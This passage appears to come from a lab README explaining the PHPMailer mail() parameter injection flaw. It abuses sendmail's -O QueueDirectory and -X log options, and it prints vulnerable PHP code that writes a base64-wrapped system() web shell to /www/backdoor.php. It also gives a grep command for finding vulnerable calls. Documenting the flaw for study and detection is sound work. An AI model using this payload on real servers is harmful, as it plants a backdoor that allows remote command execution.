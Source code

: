 And

    -O option=value
    Set option option to the specified value. This form uses long names.

And for `-O` option, the `QueueDirectory` is the most interesting option there, this option select the directory in which to queue messages.

If you want to read the whole list of parameters and options, just `man sendmail` or read it online [here](https://linux.die.net/man/8/sendmail.sendmail)

Based on this information, and the hability to control at least one of the other parameters, we can exploit the host. Bellow the steps for a successful exploitation:

 * Control `$additional_parameters` and another `mail()` parameter
 * Know a **writeable** diretory on target host which is accessible via the target system and user (www-data for example). Usually this directory can be anything bellow `webroot` (aka /var/www/html for another systems, /www for this example)
 * Any PHP payload that you want, we are using a simple `system()` payload in this example, with a spice of base64 and some special characters `|` to make it easier to parse.
 * Just assembly everything together !

Remember that the `-X` option will write the log file, that will contain among the log information your PHP payload, in the directory that you will inform. An example of a vulnerable PHP code:

```php
$to = 'hacker@server.com';
$subject = '<?php echo "|".base64_encode(system(base64_decode($_GET["cmd"])))."|"; ?>';
$message = 'Pwned';
$headers = '';
$options = '-OQueueDirectory=/tmp -X/www/backdoor.php';
mail($to, $subject, $message, $headers, $options);
```

If you execute the code above, it will create a log file in the `/www/backdoor.php`, this is the essence of this exploit.

### Payload

Bellow the payload used in this example

    <?php echo "|".base64_encode(system(base64_decode($_GET["cmd"])))."|"; ?>

### I wanna chase bugs, now what ?

Want a easy, one command, way to try to spot this flaw ? Remind this magic grep command !

    grep -r -n --include "*.php" "mail(.*,.*,.*,.*,.*)" *

Running it against this repository will result in

    src/class.phpmailer.php:700:            $result = @mail($to, $subject, $body, $header, $params);

### Credits

This vulnerability was found by Dawid Golunski.

### Disclaimer
